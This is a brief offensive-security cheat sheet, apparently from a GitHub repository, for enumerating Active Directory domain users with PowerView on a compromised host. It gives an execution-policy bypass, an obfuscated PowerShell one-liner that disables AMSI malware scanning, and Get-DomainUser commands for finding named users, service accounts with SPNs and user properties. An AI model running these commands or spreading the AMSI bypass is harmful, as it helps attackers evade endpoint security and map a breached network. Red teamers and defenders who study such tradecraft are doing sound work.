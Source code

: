 # Domain User Enumeration

## PowerView
Import PowerView to the compromised host and run the following commands


`powershell -ep bypass`

Bypass AMSI with this PowerShell command.

```
sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```

Import the script

`. .\powerview.ps1`

Get domain users

`Get-DomainUser`

To get info about a speicific user

`Get-DomainUser -Name talsonadmin`

To get info about service account

`Get-DomainUser -SPN`

To get info about a specific property

`Get-DomainUser -Properties samaccountname,description

